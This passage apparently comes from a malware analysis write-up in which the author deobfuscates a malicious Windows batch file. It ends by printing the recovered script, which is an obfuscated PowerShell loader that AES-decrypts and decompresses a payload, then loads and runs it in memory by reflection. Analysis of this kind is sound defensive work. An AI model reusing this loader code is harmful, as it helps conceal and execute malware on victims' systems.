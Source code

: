 
It's pretty messy, but it works. Putting the first definition-execution block into the input file and running it produced this output:

![image](https://gist.github.com/assets/84212701/e5c4d73c-f685-476c-8324-04cc4545b094)

The first line is the command it's running: `@echo off`. This means that my approach works, so this layer of obfuscation is broken.

## Layer 2: set in set

Running the same code for more def-exec blocks resulted in this:

![image](https://gist.github.com/assets/84212701/8ffbb7da-cef3-4b1a-bf95-406b166fe7c3)

So all of this ended up setting MORE variables to parts of the code, hence why this section is called `set` in `set`. `set` operations were
used to obfuscate commands, most of the commands being more `set` operations. So, I modified the code to allow for nested definitions.

After that, I ran it against the whole bat file, and this was the output.

![image](https://gist.github.com/assets/84212701/01b662fa-5d33-4cc9-a0ed-b655c7293feb)

The unobfuscated script:

```bat
@echo off
set "bDOC=set "
set "PzoZ=set "
cd /d %systemdrive%
set "xNSUVcbVfZ=function cabZc($wDNPY){
$dpSWX=[System.Security.Cryptography.Aes]::Create();
$dpSWX.Mode=[System.Security.Cryptography.CipherMode]::CBC;
$dpSWX.Padding=[System.Security.Cryptography.PaddingMode]::PKCS7;
$dpSWX.Key=[System.Convert]::('@F@r@o@m@B@a@s@e@6@4@S@t@r@i@n@g@'.Replace('@', ''))('ywZ4zbvE94p0AjJdsJquIr8OfpJvLV5TpDK8RHDCawA=');
$dpSWX.IV=[System.Convert]::('@F@r@o@m@B@a@s@e@6@4@S@t@r@i@n@g@'.Replace('@', ''))('gWYwrnLwvaEVn5azmkls4A==');
$duCkl=$dpSWX.CreateDecryptor();
$return_var=$duCkl.TransformFinalBlock($wDNPY, 0, $wDNPY.Length);
$duCkl.Dispose();
$dpSWX.Dispose();
$return_var;}function xHmqd($wDNPY){
$taHbo=New-Object System.IO.MemoryStream(,$wDNPY);
$KwYWp=New-Object System.IO.MemoryStream;
Invoke-Expression '$qFHGG @=@ @N@e@w@-@O@b@j@e@c@t@ @S@y@s@t@e@m@.@I@O@.@C@o@m@p@r@e@s@s@i@o@n@.@G@Z@i@p@S@t@r@e@a@m@(@$taHbo,@ @[@I@O@.@C@o@m@p@r@e@s@s@i@o@n@.@C@o@m@p@r@e@s@s@i@o@n@M@o@d@e@]@:@:@D@e@c@o@m@p@r@e@s@s@)@;@'.Replace('@', '');
$qFHGG.CopyTo($KwYWp);
$qFHGG.Dispose();
$taHbo.Dispose();
$KwYWp.Dispose();
$KwYWp.ToArray();}function bfsQm($wDNPY,$LMHlt){
$tDdAS = @(

'$Tcpjt = [System.@R@e@f@l@e@c@t@i@o@n@.Assembly]::@L@o@a@d@([byte[]]$wDNPY);'.Replace('@', ''),

'$YkCzb = $Tcpjt.EntryPoint;',

'$YkCzb.Invoke($null, $LMHlt);'
);
foreach ($WjSSe in $tDdAS) {

Invoke-Expression $WjSSe
```